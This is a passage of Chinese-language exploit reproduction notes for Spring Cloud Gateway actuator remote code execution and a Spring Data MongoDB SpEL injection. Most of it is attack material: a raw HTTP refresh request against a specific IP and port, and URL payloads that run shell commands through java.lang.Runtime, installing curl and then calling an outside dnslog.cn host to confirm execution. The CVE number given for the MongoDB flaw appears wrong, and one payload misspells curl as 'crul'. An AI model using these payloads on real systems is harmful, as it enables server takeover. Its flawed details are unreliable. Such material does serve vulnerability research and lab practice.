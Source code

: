 其中的id可以换成其他的命令

![image-20241019010215246](https://s2.loli.net/2024/10/19/ytXLmfuDMFTarPU.png)

然后应用刚添加的路由(刷新一下)，发送如下数据包

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 123.58.224.8:27159
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 		Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 0


```

![image-20241019010250712](https://s2.loli.net/2024/10/19/1GVbsOXPZMTIJpH.png)

然后直接访问/actuator/gateway/routes就可以看到

![image-20241019010349535](https://s2.loli.net/2024/10/19/e7sbGZxARLOhDMH.png)

或者访问创建的/actuator/gateway/routes/test

### 4.Spring Data MongoDB SpEL Expression injection(CVE-2022-22890)

**影响范围:**

Spring Data MongoDB v3.4.0 及以下

**复现:**

payload:

```
http://127.0.0.1:8090/?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27apt-get install -y curl%27) 
```

如果环境里没有curl先apt安装curl

然后curl一下dnslog测试(也可以python -m http.server测试)

```
http://127.0.0.1:8090/?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27crul wjyim8.dnslog.cn%27)
```


